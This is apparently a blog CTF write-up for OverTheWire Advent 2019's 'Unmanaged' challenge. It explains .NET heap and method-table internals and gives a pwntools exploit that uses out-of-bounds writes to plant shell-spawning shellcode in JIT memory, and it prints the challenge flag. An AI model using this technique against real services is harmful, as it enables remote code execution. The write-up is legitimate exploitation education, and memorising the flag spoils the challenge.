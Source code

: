 #+title: OverTheWire Advent 2019 - Unmanaged (.NET/pwn)
#+author: Daniel Brodsky
#+date: 2019-12-15
#+hugo_base_dir: ../../
#+hugo_section: writeups
#+startup: inlineimages
#+startup: inlineimages
#+hugo_menu: :menu "foo" :weight 10 :parent main :identifier single-toml
#+description: Free-range .NET shenanigans

** Problem
~I've made a Byte Buffer as a Service (BBAAS)! The service is written in C#, but To avoid performance penalties, we use unsafe code which should have comparable
performance to C++! Service: nc 3.93.128.89 1208~
** Analysis
The question comes in the form of a C# project for Linux with a file
[[/w2_Program.cs][Program.cs]] containing the source code for the project.

#+BEGIN_SRC C#
public static int Main(string[] args)
{
    // read from stdin
    BinaryReader reader = new BinaryReader(Console.OpenStandardInput(0));
    // write to stdout
    BinaryWriter writer = new BinaryWriter(Console.OpenStandardOutput(0));
    List<FastByteArray> arrays = new List<FastByteArray>();

    while (true)
    {
        byte action = reader.ReadByte(); // first byte is action
        // Allocate new byte array
        if (action == 1)
        {
            byte length = reader.ReadByte();
            // add FastByteArray of size 0 - 255 (random bytes)
            arrays.Add(new FastByteArray(length));
        }
        // Write a section of a byte array to stdout
        else if (action == 2)
        {
            byte index = reader.ReadByte();
            byte offset = reader.ReadByte();
            byte size = reader.ReadByte();
            arrays[index].Write(offset, size, writer);
        }
        // Read into bytearray from stdin
        else if (action == 3)
        {
            byte index = reader.ReadByte();
            byte offset = reader.ReadByte();
            byte size = reader.ReadByte();
            // no check of offset or size here means arbitrary mem write
            arrays[index].Read(offset, size, reader);
        }
    }
}
#+END_SRC

Looking through this
file, we see that the program reads endlessly from stdin and does 1 of 3 things
based on input:
- allocate a new FastByteArray (regular byte array wrapped in an unsafe block)
  of a given size and append it to a FastByteArray List
- read a FastByteArray from the list at a given index and offset into the array
- write new content of a given length to a FastByteArray

Each input can only be a single byte, so any offset, length, or index given can
be at most ~0xff~ (255). Normally there would be no exploit here since the
FastByteArray class is a normal implementation for a byte array, but the unsafe
blocks the class has been wrapped in has disabled bounds-checking. This means we
can read and write outside of the bounds of our array, potentially modifying
some important header data in the heap and achieving RCE.

As with most heap-based exploits, we're looking for a way to overwrite a pointer
in the heap that gets dereferenced to a location in an executable region of
memory and then write our shellcode there. We already have out of bounds read
and write access so now we just need a pointer to executed memory to write our
shellcode to. Inspecting the heap memory of the dotnet binary is difficult with
just GDB, so I used a Microsoft-provided tool ~dotnet-dump~ to dump labelled
heap memory at runtime. Using the command ~dumpheap~ we can see the heap layout
when we create several FastByteArrays and also see how they're located at
runtime. Below is a portion of the heap at runtime, which contains some of our
allocated FastByteArray[]. Using the ~dumpmt~ command on the provided MT
addresses, we can figure out the structure of our array.

#+begin_export html
<div class="src src-text">
<div class="highlight">
<pre style="color:#e5e5e5;background-color:#000;-moz-tab-size:4;-o-tab-size:4;tab-size:4">
<code class="language-text" data-lang="text">
#+end_export
| Address in heap  | MT address       | Size | Class                        |
| 00007f1894008c08 | 00007f18b91214c0 |  124 | Byte[] (the one we write to) |
| 00007f1894008c88 | 00007f18b91214c0 |   25 | Byte[]                       |
| 00007f1894008ca8 | 00007f18b91214c0 |   25 | Byte[]                       |
| 00007f1894008cc8 | 00007f18b9221288 |   24 | FastByteArray                |
| 00007f1894008ce0 | 00007f18b91214c0 |  124 |                              |
| 00007f1894008d60 | 00007f18b91214c0 |   25 |                              |
| 00007f1894008d80 | 00007f18b91214c0 |   25 |                              |
| 00007f1894008da0 | 00007f18b9221288 |   24 |                              |
| 00007f1894008db8 | 00007f18b91214c0 |  124 |                              |
#+begin_export html
</code></pre></div></div>
#+end_export

The MT address is the address to the method table for the given object at this
location. This table contains pointers to the locations of additional metadata
for this class, including parent classes, EEClass (which holds metadata on the
class such as number methods, size, etc), source module, and JIT-compiled
methods among other things. Using the ~telescope~ command in GEF, we can see the
structure of this table (unlabelled data/pointers is unknown):
#+BEGIN_SRC
+0x0000: 0x0000001801000000
+0x0008: 0x0000000400034488
+0x0010: Pointer to parent type
+0x0018: Pointer to module -> several JIT address pointers here
+0x0020: 0x00007f38c3f112f0
+0x0028: Pointer to EEClass
+0x0030: 0x00007f38c3d8f608
+0x0038: 0x0000000000000000
+0x0040: 0x00007f38c3f112d0
+0x0048: 0x00007f38c3d80090
#+END_SRC

Reading the method table during execution of the given program can be done
thanks to the heap structure of each object in the heap:
#+BEGIN_SRC
0x0: *MethodTable for object type
0x8: private variable(s) in object (or size if array of object)
object data
.
.
.

#+END_SRC

The FastByteArray object in our heap stores two useful pointers to us: its
method table and a pointer to the Byte[] we write to. During program execution,
finding the Byte[] we read and write to is done by dereferencing the pointer in
the FastByteArray object. If we overwrite this pointer with a different pointer,
we'll end up having read/write access to any region of memory we want.


** Exploit
We can use any of the many JIT addresses referenced in the method table to get a
JIT address to write to. However, we need a pointer to a JIT address that's
called during execution for us to place our shellcode at. Unfortunately, the
dotnet runtime has a complex system for storing pointers to methods, so finding
a location where code is executed can be tricky. I've listed a couple methods to
do this below that I've either found or seen elsewhere:
- Use backtracing to find a Common Language Runtime (CLR) function that's
  called, and find its location using a series of reads through the Global
  Offset Tables of different shared objects
- Write shellcode to any JIT address, then follow program execution and modify
  heap pointers to manipulate what address to execute
- Set a watchpoint on a FastByteArray and backtrace to find the JIT address of
  the read/write method (simplest method my teammate came up with)
- Remove execute permissions of all JIT pages and see where the program
  segfaults for an executed JIT address (my method and the only method I go into
  detail for)

For any of these methods, getting the JIT address means we know that function's
location during every program run since we can compute the offset into the JIT
page for that address on every run. Since we have other pointers to this same
JIT page, we can just do KNOWN_JIT_ADDR - JIT_PAGE_TOP + TARGET_JIT_ADDR_OFFSET
to get the address for that run of the program.


In GEF I used ~vmmap~ to find all JIT pages during program execution and then
use

~call (size_t) mprotect(JIT page start, JIT page size, 3)~

to set the page to RW only. Then when I ran the program it would segfault at the
first access of a JIT page, giving me the address of an executed instruction.

[[/w2_gef_segv.png]]

Unfortunately, this first stop happens during the loop that reads from stdin,
which all methods trigger. If I attempt to write over instructions at this
address, I'd end up corrupting my program execution as each byte is written. In
order to avoid this, I wrote my shellcode to a nearby location to the JIT
address and then modified a nearby jump instruction to jump to my shellcode
instead. Changing a short jump is a 1-byte write, so it doesn't corrupt our
program execution. The brunt of my exploit is located in the snipped below (and
the full exploit can be found [[/w2_x.py][here]]).

#+BEGIN_SRC python
"""
00007fb352321288 - fastbytearray MT (+32 from target addr) ->
    0x00007fb352321268 - part of unknown MT ->
        0x00007fb3521a4fe0 (+210 from target JIT address) ->
            0x7fb3521a4f0e (target JIT address) <- write shellcode here


Steps:
- read fastbytearray MT
- fastbytearray MT - 32 = location of JIT addr
- read location of JIT addr
- JIT addr - 210 = target JIT addr (+18 for jump instruction location)
- write shellcode to nearby unused address
- overwrite short jump's offset byte
- run any command
"""

array_size = 100

pause()

for _ in range(15):
    create(array_size)

read(1, array_size + 76, 8)
# read MT address for FastByteArray
fba_mt = u64(recv().ljust(8, "\x00"))
pause()
# pointer to address in used JIT page
jit_addr = read_any(fba_mt - 32)
# address in JIT page to short jump instruction called for all r/w operations
target_addr = u64(jit_addr) - 192
print "short jump instruction at: ", hex(target_addr)
pause()

shellcode = asm(shellcraft.amd64.linux.sh())
shellcode_addr = target_addr + 115  # I've stopped giving a fuck

write_any(shellcode_addr, shellcode, size=len(shellcode))

# modify short jump to go to unused code area (offset 115 from eip)
write_any(target_addr + 1, "\x71", size=1)

p.interactive()

#+END_SRC

Running this against the server, we get a shell and then using ~cat flag.txt~ we
get the flag: ~AOTW{1snt_c0rrupt1nG_manAgeD_M3m0ry_easier_than_y0u_th1nk?}~


** Opinion
This is one of the best kinds of questions to get on a CTF. While it does force
you to step outside of your comfort zone and work with uncommon frameworks/tools
like the dotnet ecosystem, there's a lot of freedom in what you can do to get
flag. By completing this problem, I've learned significantly more about dotnet
and JIT-compiled runtimes without feeling like I was spending a huge amount of
time getting tricked, going off course, or not learning.

** References
https://alexandrnikitin.github.io/blog/dotnet-generics-under-the-hood/

